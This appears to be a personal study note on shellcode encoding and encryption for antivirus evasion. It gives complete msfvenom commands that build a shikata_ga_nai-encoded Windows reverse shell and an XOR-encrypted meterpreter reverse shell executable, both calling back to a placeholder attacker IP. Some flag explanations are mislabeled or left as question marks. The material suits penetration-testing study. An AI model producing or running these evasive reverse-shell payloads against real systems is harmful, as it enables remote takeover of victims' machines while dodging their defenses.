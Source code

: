 **What is Encoding**

- Converting data to another state or format. 
- This is used for program compiling, data transmissions., and data processing
- Encoding can be seen as way for certain applications to talk to each other if their base communication isn't the same. 
- For example, to evade anti virus, you could hide shellcode in binary. 

**What is Encryption**

- From a computer science standpoint this keeps data from being manipulated by protecting it via passwords or  similar methods. 
- Encryption is mostly done by a shared key or public and private keys. 
- Non encrypted text is known as plain text, while encrypted text is known as cipher text

## Shellcode Encoding and Encryption 

#### Encoding using MSFVenom

List out encoders available from msfvenom
```shell
msfvenom --list encoders | grep excellent
```

Utilize msfvenom to create a csharp program encrypted with shikata_ga_nai
a - x86 architecture
platform - Create a payload for the windows platform 
LHOST - the IP address the reverse shell will connect to
LPORT - the port the reverse shell will connect to
p - the payload to use, in this case a stageless reverse tcp connection
e - encoding the payload with shikata ga nai ? 
b - ? 
i - encode the payload with 3 iterations
f - the file type will be csharp
```shell
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```


#### Encrypted using MSFVenom

List out available encryption algos for msfvenom
```bash
msfvenom --list encrypt
```

Create a payload with msfvenom
p - Create a staged reverse tcp payload
LHOST - the attacker's ip address the reverse shell will connect to 
LPORT - the attacker's port the reverse shell will connect to
p - the file type the payload will be generated as, in this case exe
encrypt - encryption method to use, in this case xor 
encryption-key - the encryption key to use
o - the name of the newly generated payload 
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```
